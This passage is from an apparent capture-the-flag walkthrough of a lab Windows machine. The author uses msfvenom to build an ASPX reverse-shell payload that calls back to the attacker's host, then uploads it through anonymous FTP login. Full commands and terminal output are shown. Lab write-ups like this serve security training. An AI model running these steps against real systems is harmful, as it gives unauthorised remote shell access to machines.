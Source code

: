 ```
Now, how can we exploit this?? We can go ahead to create a reverse shell and upload it to the ftp server, then we try to execute the reverse shell from the webpage hehe, interesting right?? Lets pop some shells😎




# Exploitation

Lets create our reverse shell

command:```msfvenom -p windows/shell_reverse_tcp LHOST=10.0.14.31 LPORT=4443 -f aspx -o abeg.aspx```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Devel]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=4443 -f aspx -o abeg.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2891 bytes
Saved as: abeg.aspx
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Devel]
└─$ ls
abeg.aspx  Devel  
```
cool, now lets upload this to the ftp server using the ```put``` command.

command:```ftp 10.10.10.5```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Devel]
└─$ ftp 10.10.10.5                                                                                                                                    
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:bl4ck4non): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la

229 Entering Extended Passive Mode (|||49179|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
05-15-23  04:53PM                   16 test.txt
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
ftp> put abeg.aspx
local: abeg.aspx remote: abeg.aspx
229 Entering Extended Passive Mode (|||49180|)
125 Data connection already open; Transfer starting.
100% |***************************************************************************************************************************************************|  2928       29.70 MiB/s    --:-- ETA
226 Transfer complete.
2928 bytes sent in 00:00 (9.44 KiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||49181|)
125 Data connection already open; Transfer starting.
05-15-23  05:40PM                 2928 abeg.aspx